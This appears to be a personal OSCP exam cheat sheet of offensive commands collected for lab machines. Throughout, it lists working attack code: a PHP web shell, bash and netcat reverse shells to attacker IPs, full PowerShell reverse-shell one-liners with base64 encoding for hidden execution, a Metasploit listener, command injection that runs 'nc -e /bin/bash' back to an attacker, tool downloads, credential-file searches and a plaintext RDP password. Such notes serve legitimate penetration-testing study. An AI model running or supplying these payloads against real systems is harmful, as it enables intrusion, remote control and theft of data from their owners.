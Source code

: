 - SSH connection to OSCP machines
```
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" learner@192.168.50.52
```
- Bash One-Liners
```
	for ip in $(cat list.txt); do host $ip.megacorpone.com; done
```
- SecLists Project - collection of wordlists
- PHP command execution
```
<?php echo system($_GET['cmd']); ?>
```
- One liner reverse shell
```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F4444%200%3E%261%22


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f

```

- powershell one liner reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.230',4444);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0}while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex '. { $data } 2>&' | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
![[rev.ps1]]

Base64 encoding for powershell
```
$MyBase6 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('$client = New-Object System.Net.Sockets.TCPClient("192.168.45.",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' ))

$Bytes=[Convert]::FromBase64String($Text)
[System.Text.Encoding]::Unicode.GetString($Bytes)
```

msfconsole 

```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"

```
find using powershell

Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C: -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

download powershell

```
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://192.168.45.204:9090/Seatbelt.exe -Outfile seat.exe
```

network scanning
for i in $(seq 1 254); do nc -zv -w 1 172.16.203.$i 445; done

xfreerdp /u:justin /p:_SuperS3cure1337#_ /v:192.168.203.202

curl -X POST http://192.168.174.134:13337/update -H "Content-Type: application/json" -H "X-Forwarded-For: localhost" --data '{"user":"clumsyadmin","url":"http://192.168.45.230:8000/mint"}'

```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)

```

php reverse shell

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php


```
import os
os.popen("id").read()
```

### Upgrade shell

python -c 'import pty; pty.spawn("/bin/sh")'

curl -X  post --data "code=os.system('nc -e /bin/bash 192.168.45.162 18000')" http://192.168.175.117:50000/verify

```
%0Anc%20192.168.118.3%204444%20-e%20%2Fbin%2Fb

ssh -R 80:0.0.0.0:80 web_svc@192.168.240.147
